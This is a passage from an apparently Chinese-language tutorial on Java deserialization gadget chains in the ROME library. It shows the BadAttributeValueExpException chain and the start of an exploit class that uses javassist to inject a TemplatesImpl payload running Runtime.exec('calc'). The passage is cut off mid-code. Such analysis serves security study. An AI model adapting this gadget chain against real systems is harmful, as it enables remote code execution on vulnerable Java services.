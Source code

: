 [![](assets/1705886615-63aeab82a66c9cbbd5e01329cdd82c4c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120124744-0d0564c4-b74f-1.png)  
这里的 key 为 ObjectBean 对象，这样就调用了 ObjectBean 的 hashCode 方法，接下来的链与上一个链一致

## 6\. BadAttributeValueExpException 利用链

### 利用链

```bash
TemplatesImpl.getOutputProperties()
ToStringBean.toString(String)
ToStringBean.toString()
BadAttributeValueExpException.readObject()
```

### EXP

```bash
package RomeSec;

import com.sun.syndication.feed.impl.ToStringBean;
import javassist.ClassPool;
import javassist.CtClass;

import javax.management.BadAttributeValueExpException;
import javax.xml.transform.Templates;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;

public class BadAttrExp {
    public static void main(String[] args) throws Exception{
        String AbstractTranslet="com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet";
        String TemplatesImpl="com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";

        // 创建恶意类
        ClassPool classPool = ClassPool.getDefault();
        classPool.appendClassPath(AbstractTranslet);
        CtClass ctClass = classPool.makeClass("cccc");
        ctClass.setSuperclass(classPool.get(AbstractTranslet));
        ctClass.makeClassInitializer().setBody("java.lang.Runtime.getRuntime().exec(\"calc\");");
        byte[] bytes = ctClass.toBytecode();

        // 创建TemplatesImpl对象
```